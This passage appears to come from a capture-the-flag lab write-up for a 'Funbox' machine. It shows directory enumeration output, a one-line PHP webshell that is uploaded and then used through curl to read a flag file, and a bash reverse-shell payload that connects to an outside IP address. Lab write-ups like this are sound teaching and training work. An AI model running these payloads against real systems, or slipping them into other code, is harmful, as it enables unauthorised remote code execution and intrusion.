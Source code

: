 ```bash
setup            [Status: 401, Size: 462, Words: 42, Lines: 15, Duration: 40ms]
sql              [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 39ms]
sql.php          [Status: 200, Size: 10529, Words: 504, Lines: 26, Duration: 39ms]
locale           [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 39ms]
import.php       [Status: 200, Size: 10532, Words: 504, Lines: 26, Duration: 39ms]
lint.php         [Status: 200, Size: 48, Words: 1, Lines: 1, Duration: 39ms]
server_status.php [Status: 200, Size: 10539, Words: 504, Lines: 26, Duration: 42ms]
phpinfo.php     [Status: 200, Size: 10533, Words: 504, Lines: 26, Duration: 40ms]
db_search.php   [Status: 200, Size: 10535, Words: 504, Lines: 26, Duration: 40ms]
```
{% endcode %}

We don't have any credentials to use, so let's turn into the upload functionality and try to upload a basic PHP webshell (Figure 2).

{% code title="webshell.php" %}
```php
<?php system($_GET['cmd']); ?>
```
{% endcode %}

<figure><img src="../../.gitbook/assets/funbox_webshell_upload.png" alt=""><figcaption><p>Figure 2: Uplolading a basic PHP webshell.</p></figcaption></figure>

```bash
$ curl http://192.168.210.132/webshell.php?cmd=cat+../local.txt
d18<REDACTED>a71
```

## RCE

Since we have already achieved RCE, we can convert our webshell to a reverse shell (Figure 3).

```bash
# payload used
bash -c 'bash -i >& /dev/tcp/192.168.45.171/9090 0>&1'
```

<figure><img src="../../.gitbook/assets/funbox_revshell.png" alt=""><figcaption><p>Figure 3: Sending a reverse shell command via our webshell.</p></figcaption></figure>


[^1]: Remote Code Execution
[^2]: Brute Force Attack
[^3]: Brute Force Attack
[^4]: Living off the Land